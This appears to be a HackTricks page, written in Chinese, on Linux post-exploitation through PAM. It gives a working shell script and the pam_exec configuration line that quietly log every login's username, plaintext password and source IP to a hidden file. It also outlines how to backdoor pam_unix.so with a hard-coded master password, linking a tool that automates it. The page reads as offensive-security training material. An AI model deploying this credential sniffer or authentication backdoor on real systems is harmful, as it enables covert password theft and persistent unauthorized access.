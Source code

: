 # Linux Post-Exploitation

{{#include ../../banners/hacktricks-training.md}}

## 使用 PAM 嗅探登录密码

让我们配置一个 PAM 模块来记录每个用户登录时使用的密码。如果你不知道 PAM 是什么，请查看：

{{#ref}}
pam-pluggable-authentication-modules.md
{{#endref}}

**有关更多详细信息，请查看 [原始帖子](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/)**。这只是一个摘要：

**技术概述：**
可插拔认证模块（PAM）在管理基于 Unix 的系统的认证方面提供了灵活性。它们可以通过自定义登录过程来增强安全性，但如果使用不当也会带来风险。此摘要概述了一种使用 PAM 捕获登录凭据的技术，以及缓解策略。

**捕获凭据：**

- 一个名为 `toomanysecrets.sh` 的 bash 脚本被创建，用于记录登录尝试，捕获日期、用户名（`$PAM_USER`）、密码（通过 stdin）和远程主机 IP（`$PAM_RHOST`）到 `/var/log/toomanysecrets.log`。
- 该脚本被设置为可执行，并通过 `pam_exec.so` 模块集成到 PAM 配置（`common-auth`）中，选项为安静运行并将认证令牌暴露给脚本。
- 该方法演示了如何利用被攻陷的 Linux 主机来隐秘地记录凭据。
```bash
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
sudo nano /etc/pam.d/common-auth
# Add: auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh
sudo chmod 700 /usr/local/bin/toomanysecrets.sh
```
### Backdooring PAM

**有关更多详细信息，请查看[原始帖子](https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9)**。这只是一个摘要：

可插拔认证模块（PAM）是一个在Linux下用于用户认证的系统。它基于三个主要概念：**用户名**、**密码**和**服务**。每个服务的配置文件位于`/etc/pam.d/`目录中，那里有共享库处理认证。

**目标**：修改PAM以允许使用特定密码进行认证，绕过实际用户密码。这特别关注`common-auth`文件中使用的`pam_unix.so`共享库，该文件几乎被所有服务用于密码验证。

### 修改`pam_unix.so`的步骤：

1. **定位`common-auth`文件中的认证指令**：
- 负责检查用户密码的行调用`pam_unix.so`。
2. **修改源代码**：
- 在`pam_unix_auth.c`源文件中添加一个条件语句，如果使用预定义密码则授予访问权限，否则继续进行常规认证过程。
3. **重新编译并替换**修改后的`pam_unix.so`库到适当的目录。
4. **测试**：
- 使用预定义密码在各种服务（登录、ssh、sudo、su、屏幕保护程序）中授予访问权限，而正常的认证过程不受影响。

> [!TIP]
> 您可以使用[https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)自动化此过程。

{{#include ../../banners/hacktricks-training.md}}
